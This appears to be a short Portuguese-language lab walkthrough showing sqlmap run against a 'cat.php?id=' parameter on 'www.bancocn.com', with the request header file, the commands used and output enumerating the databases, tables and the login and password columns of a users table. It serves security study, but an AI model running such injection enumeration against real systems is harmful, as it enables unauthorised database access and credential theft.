Utilizando o `sqlmap` com os headers de autenticação do site na URL `cat.php?id={:id}`

`headers.txt`

```txt
GET /cat.php?id=1 HTTP/1.1
Host: www.bancocn.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://www.bancocn.com/
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

**Comando sqlmap**: `sqlmap -r headers.txt --batch`

- `sqlmap -r headers.txt --batch --dbs`


**Output**
```bash
[20:33:55] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40
back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
[20:33:55] [INFO] fetching database names
[20:33:56] [INFO] retrieved: 'bancocn'
[20:33:56] [INFO] retrieved: 'information_schema'
available databases [2]:                                                                           
[*] bancocn
[*] information_schema
```

**Output [bancocn]** `sqlmap -r headers.txt --batch --tables`

```bash
Database:bancocn                                                                                                                                                            
[4 tables]
+---------------------------------------+
| categories                            |
| pictures                              |
| stats                                 |
| users                                 |
+---------------------------------------+
```

> `sqlmap -r headers.txt --batch -D bancocn -T users --columns`

```bash
---
[20:41:32] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40
back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
[20:41:32] [INFO] fetching columns for table 'users' in database 'bancocn'
[20:41:34] [INFO] retrieved: 'id','mediumint(9)'
[20:41:34] [INFO] retrieved: 'login','varchar(50)'
[20:41:34] [INFO] retrieved: 'password','varchar(50)'
Database: bancocn                                                                                                                                                                     
Table: users
[3 columns]
```